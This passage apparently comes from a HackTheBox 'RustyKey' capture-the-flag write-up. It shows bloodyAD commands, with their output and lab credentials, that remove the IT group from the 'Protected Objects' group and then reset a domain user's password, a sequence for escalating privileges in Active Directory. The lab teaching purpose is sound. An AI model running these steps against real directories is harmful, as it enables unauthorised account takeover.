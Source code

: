 ![BloodHound](/assets/img/rustykey-htb-season8/bloodhound_3.png)

We recall back to this part and see that in order to modify other users, we need to remove the `IT@RUSTYKEY.HTB` and `SUPPORT@RUSTYKEY.HTB` out of the `PROTECTED OBJECTS@RUSTYKEY.HTB` group. <br>
And if we `PROTECTED OBJECTS@RUSTYKEY.HTB`, we will see that.

![BloodHound](/assets/img/rustykey-htb-season8/bloodhound_4.png)

This group is a member of `PROTECTED USERS@RUSTYKEY.HTB` group and see the description that this group will be afforded additional protections of any modify like compromise credentials will be denied. <br>
Here is the [refs](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn466518(v=ws.11)?redirectedfrom=MSDN) to take a look at the documentation. <br>
Let's remove this group `PROTECTED OBJECTS@RUSTYKEY.HTB` out of two other group.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'Protected Objects' 'IT'
[-] IT removed from Protected Objects
```

We can able to modify `BB.MORGAN` and `GG.ANDERSON` password.

```bash
└─$ bloodyAD --host dc.rustykey.htb -d rustykey.htb -k -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'Password@123'      
[+] Password changed successfully!
```
